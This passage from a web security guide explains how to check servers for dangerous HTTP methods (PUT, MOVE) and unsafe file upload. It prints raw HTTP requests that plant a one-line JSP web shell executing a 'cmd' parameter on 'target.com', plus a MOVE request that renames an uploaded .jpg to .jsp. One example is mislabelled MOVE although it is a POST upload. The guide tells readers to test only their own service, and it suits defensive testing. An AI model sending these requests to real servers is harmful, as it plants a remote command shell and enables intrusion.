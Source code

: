 
## 2. How to check vulnerability
#### Caution
* **It may be problematic even if unauthorized users perform verification operations on third-party web services, not attacks. Please use the test only to verify your own service.**

### 2.1. HTTP Method(PUT, DELETE)
* The above HTTP method, which is commonly used in the RestFul service, can be created / deleted. If methods other than GET and POST are not allowed, they are safe.

#### HTTP Method(PUT)

```
PUT /upload/image/ws.jsp HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:30.0) Gecko/20100101 Firefox/30.0
Host: target.com
Connection: Keep-Alive
Content-type: text/html
Content-Length:  60
 
<%Runtime.getRuntime().exec(request.getParameter(“cmd”));%>
```

* Methods such as COPY and MOVE are considered dangerous because they can change the path or name of existing files.
#### HTTP Method(MOVE)

```
Move /upload/image/ws.jpg HTTP/1.1
Destination : http://target.com/upload/image/ws.jsp
Host : target.com
```

### 2.2. File Upload Function
* Upload files using the normal file upload function (such as multipart). If a file with an extension that can be interpreted by the web server is not uploaded, it is safe.

#### HTTP Method(MOVE)

```
POST /upload/upload.jsp HTTP/1.1
Host: target.com
Connection: keep-alive
Content-Length: 230
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.153 Safari/537.36
Content-Type: multipart/form-data;
boundary=----WebKitFormBoundaryWvkRmVFj2ApPGgKi
Accept-Encoding: gzip,deflate,sdch

 
------WebKitFormBoundaryWvkRmVFj2ApPGgKi
Content-Disposition: form-data;name="Filedata"; filename="ws.jsp"
Content-Type: text/html
 
<%Runtime.getRuntime().exec(request.getParameter(“cmd”));%>
```
